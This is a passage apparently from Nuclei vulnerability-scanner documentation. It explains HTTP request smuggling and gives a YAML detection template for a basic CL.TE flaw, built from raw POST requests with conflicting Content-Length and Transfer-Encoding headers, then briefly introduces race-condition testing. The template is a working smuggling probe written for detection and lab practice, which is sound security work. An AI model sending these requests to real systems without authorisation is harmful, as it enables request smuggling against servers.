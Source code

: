 The most basic example of an HTTP Smuggling vulnerability is CL.TE Smuggling. An example template to detect a CE.TL HTTP Smuggling vulnerability is provided below using the `unsafe: true` attribute for rawhttp based requests.

```yaml
id: CL.TE-http-smuggling

info:
  name: HTTP request smuggling, basic CL.TE vulnerability
  author: pdteam
  severity: info
  lab: https://portswigger.net/web-security/request-smuggling/lab-basic-cl-te

requests:
  - raw:
    - |+
      POST / HTTP/1.1
      Host: {{Hostname}}
      Connection: keep-alive
      Content-Type: application/x-www-form-urlencoded
      Content-Length: 6
      Transfer-Encoding: chunked
      
      0
      
      G      
    - |+
      POST / HTTP/1.1
      Host: {{Hostname}}
      Connection: keep-alive
      Content-Type: application/x-www-form-urlencoded
      Content-Length: 6
      Transfer-Encoding: chunked
      
      0
      
      G
            
    unsafe: true
    matchers:
      - type: word
        words:
          - 'Unrecognized method GPOST'
```

More examples are available in [template-examples](https://nuclei.projectdiscovery.io/template-examples/http-smuggling/
) section for smuggling templates.


#### Race conditions

Race Conditions are another class of bugs not easily automated via traditional tooling. Burp Suite introduced a Gate mechanism to Turbo Intruder where all the bytes for all the requests are sent expect the last one at once which is only sent together for all requests synchronizing the send event.
